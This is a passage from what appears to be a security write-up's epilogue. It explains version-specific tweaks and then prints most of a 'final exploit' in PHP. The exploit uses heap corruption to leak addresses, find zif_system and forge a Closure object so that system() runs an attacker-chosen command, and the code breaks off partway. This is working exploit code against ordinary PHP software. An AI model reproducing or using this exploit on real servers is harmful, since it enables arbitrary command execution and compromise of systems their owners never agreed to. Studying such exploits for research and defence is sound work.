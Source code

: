 
# Epilogue

If you run the exploit in our environment, you will notice that it does not work. We built the exploit for a slighly different PHP version and all our tests were executed via PHP-CLI. The changes needed are:

1. Move the `0x100` used in the `str_repeat()` to a constant. We are still atonished about this poltergeist.
2. Change the "needle" used to identify the `basic_functions` array.  From `0x6e69623278656800` to `0x73006e6962327865`.
3. Change the offset in the `get_system()` in 0x20, so the `-0x10` should be a `+0x10`

The final exploit is:

```php
<?php



class Helper { public $a, $b, $c, $d; }  //alloc(0x4F)

class exploit {
    const FILL = 0x100;
    public function __construct($cmd) {
        
        $concat_result_addr = $this->leak_heap();
        print "[+] Concated string address:\n0x";
        print dechex($concat_result_addr);
        $this->placeholder = $this->alloc(0x4F, "B");
        $placeholder_addr = $concat_result_addr+0xe0;
        print "\n[+] Placeholder string address:"; 
        print "\n0x".dechex($placeholder_addr);
        $this->free($placeholder_addr);
        $this->helper = new Helper;
        $this->helper->a = "KKKK";
        $this->helper->b = function ($x) { };
        print "\n[+] std_object_handlers:\n";
        $std_object_handlers = $this->str2ptr($this->placeholder);
        print "0x" . dechex($std_object_handlers) . "\n";
        $closure_addr = $this->str2ptr($this->placeholder, 0x20);
        print "[+] Closure:\n";
        print "0x" . dechex($closure_addr) . "\n";
       
        $basic = $this->get_basic_funcs($std_object_handlers);
        print "[+] basic_funcs:\n";
        print "0x" . dechex($basic) . "\n";
        $system = $this->get_system($basic);
        print "[+] zif_system:\n";
        print "0x" . dechex($system);


        $fake_obj_offset = 0xd8;

        for ($i = 0; $i < 0x110; $i += 8) {
            $this->write($this->placeholder, $fake_obj_offset + $i, $this->leak($closure_addr-0x10+$i));
        }

        $fake_obj_addr = $placeholder_addr +  $fake_obj_offset + 0x18;
        print "\n[+] Fake Closure addr:\n0x" . dechex($fake_obj_addr);

        $this->write($this->placeholder, 0x20, $fake_obj_addr);
        $this->write($this->placeholder, $fake_obj_offset + 0x38, 1, 4); # internal func type
```